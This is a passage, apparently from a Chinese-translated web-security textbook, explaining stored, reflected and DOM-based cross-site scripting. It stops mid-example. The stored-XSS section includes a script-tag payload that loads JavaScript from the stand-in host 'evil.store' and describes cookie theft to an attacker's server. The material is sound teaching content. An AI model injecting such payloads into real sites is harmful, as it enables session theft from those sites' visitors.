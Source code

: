 # 持久 XSS

当注入的数据存储在 web 服务器或数据库上时，XSS 缺陷称为**持久性**或**存储**，应用程序将其返回给应用程序的一个或所有用户而不进行验证。目标是感染网站所有访问者的攻击者将使用持续 XSS 攻击。这使攻击者能够大规模利用该网站。

持久 XSS 缺陷的典型目标如下：

*   基于 Web 的讨论论坛
*   社交网站
*   新闻网站

**持久 XSS**被认为比其他 XSS 缺陷更严重，因为攻击者的恶意脚本会自动注入受害者的浏览器。它不需要网络钓鱼攻击来引诱用户点击链接。攻击者将恶意脚本上载到易受攻击的网站上，然后将其作为其正常浏览活动的一部分发送到受害者的浏览器。As XSS 还可用于从外部站点加载脚本。这在存储的 XSS 中尤其有害。注入时，以下代码将查询远程服务器以获取要执行的 JavaScript：

```
<script type="text/javascript"  src="http://evil.store/malicious.js"></script> 
```

下图显示了易受持久 XSS 攻击的 web 应用程序的示例。该应用程序是一个在线论坛，用户可以在其中创建帐户并与他人交互。应用程序将用户的配置文件与其他详细信息一起存储在数据库中。攻击者确定应用程序未能清理保留在 comments 部分的数据，并利用此机会向该字段添加恶意 JavaScript。此 JavaScript 存储在 web 应用程序的数据库中。在正常浏览过程中，当无辜的受害者查看这些评论时，JavaScript 会在受害者的浏览器中执行，然后该浏览器会抓取 cookie 并将其发送到攻击者控制下的远程服务器：

![](../images/00170.jpeg)

最近，internet 上的多个站点上都使用了持久 XSS 来利用用户的网站作为加密货币挖掘的工作人员，或者形成浏览器的僵尸网络。

# 脚本漏洞

**反射 XSS**是一种非持续性攻击形式。恶意脚本是受害者对 web 应用程序的请求的一部分，然后应用程序以响应的形式将其反射回来。这似乎很难利用，因为用户不会愿意向服务器发送恶意脚本，但有几种方法可以诱使用户对自己的浏览器发起反射 XSS 攻击。

反射 XSS 主要用于黑客部署包含恶意脚本和 URL 的钓鱼电子邮件的目标攻击。或者，攻击可能涉及在公共网站上发布链接并诱使用户点击。这些方法与 URL 缩短服务相结合，可以缩短 URL 并隐藏长而奇怪的脚本，这会在受害者的脑海中引起怀疑，可以用来执行反射 XSS 攻击，成功率很高。

如下图所示，受害者被诱骗单击一个 URL，该 URL 将脚本传递给应用程序，然后在未经适当验证的情况下将其反射回来：

![](../images/00171.jpeg)

# 基于 DOM 的 XSS

第三种 XSS 是本地的，直接影响受害者的浏览器。此攻击不依赖发送到服务器的恶意内容，但它使用**文档对象模型**（**DOM**），这是浏览器的 API，用于操纵和呈现网页。在持久和反射 XSS 中，脚本包含在服务器的响应中。受害者的浏览器接受它，假设它是网页的合法部分，并在页面加载时执行它。在**基于 DOM 的 XSS**中，仅执行服务器提供的合法脚本。

越来越多的 HTML 页面是通过在客户端下载 JavaScript 并使用配置参数来调整用户看到的内容来生成的，而不是像应该显示的那样由服务器发送。任何时候在不刷新整个页面的情况下更改页面的某个元素时，都会使用 JavaScript 完成。一个典型的例子是一个网站，它允许用户更改页面的语言或颜色，或者调整页面中元素的大小。

基于 DOM 的 XSS 利用这种合法的客户端代码执行脚本攻击。基于 DOM 的 XSS 最重要的部分是，合法脚本使用用户提供的输入向用户浏览器上显示的网页添加 HTML 内容。

让我们讨论一个基于 DOM 的 XSS 示例：

1.  假设创建一个网页以根据 URL 中传递的城市名称显示自定义内容，则 URL 中的城市名称也会显示在用户浏览器的 HTML 网页中，如下所示：

```
      http://www.cityguide.test/index.html?city=Mumbai
```
